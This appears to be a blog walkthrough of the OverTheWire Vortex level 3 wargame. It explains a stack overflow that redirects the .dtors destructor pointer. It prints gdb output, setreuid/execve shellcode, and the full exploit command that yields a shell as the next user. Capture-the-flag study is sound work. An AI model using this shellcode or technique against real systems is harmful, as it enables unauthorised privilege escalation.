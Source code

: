 Title: overthewire, vortex: level 3
Date: 2011/10/11 02:01
Author: Ken Ko
Tags: nasm, shellcode, x86, stack, overthewire.org

Trying to make sense of what's going on with the code.

<code>
// val = 31337
31337 <-- val
// *lp = &val
[val] <- *lp || lp = 31337

// **lpp = &lp; *tmp
lp <- *lpp || [lp] <-- lpp || lp <-- *lpp
// tmp = *lpp
tmp = *lpp = [lp]
// **lpp = &buf
**lpp = &lp = &buf || [buf] <-- lpp || buf <-- *lpp
// *lpp = tmp
*lpp -> buf = tmp || buf = tmp
</code>

If that helps... at all. 

Anyhow, the plan should be to overwrite .dtor and make it point to our buf[] which will contain the shellcode of seteuid() and system(). Seems like a lot more than our previous tasks, so let's write a TODO list:

<code>
1. address of .dtor (should be easy)
2. address of 0x0804....h that points to .dtor
3. overflow lpp to be that address in [2]
4. write new shellcode to include that setuid()
5. place shellcode in buf[]
6. overwrite .dtor to point to middle of buf[]
</code>

We need a pointer to __DTOR_END__ because we can't use the address directly.

<code>
080482f4 <__do_global_dtors_aux>:
 . . .
 8048303:       a1 98 94 04 08          mov    0x8049498,%eax
 . . .
 8048313:       a3 98 94 04 08          mov    %eax,0x8049498
 . . .
 804831a:       a1 98 94 04 08          mov    0x8049498,%eax
 . . .
</code>

Taking a further look:

<code>
(gdb) x/20x 0x08049490
0x8049490 <data_start>: 0x00000000      0x00000000      0x08049578      0x00007a69
(gdb) x/x 0x08049498
0x8049498 <p.0>:   0x08049578
(gdb) x/x 0x08049578
0x8049578 <__DTOR_END__>:  0x00000000
</code>

Now the 71 bytes of shellcode to include both setreuid along with the execve:

<code>
"\x31\xc0\x31\xdb\x31\xc9\xb0\x46\x66\xbb\xfa\x01\x66\xb9\xfa\x01\xcd\x80\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\xff" * 20 + "\x98\x94\x04\x08"'
</code>

Now, trial and error shows us that 140 bytes of trash is what we need to overwrite lpp. Trial and error which was done by noticing the exit codes (from gdb) and seeing that if we failed the address check, we would run into <strong>exit(2)</strong>. 

Here's the entire exploit:

<code>
vortex3@games ~ $ /vortex/level3 `python -c 'print "\x90" * 49 +  "\x31\xc0\x31\xdb\x31\xc9\xb0\x46\x66\xbb\xfa\x01\x66\xb9\xfa\x01\xcd\x80\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90" * 20 + "\x98\x94\x04\x08"'`
sh-3.2$ whoami
vortex4
sh-3.2$
</code>

And here is the asm that generated the shellcode above:

[codebox 1]
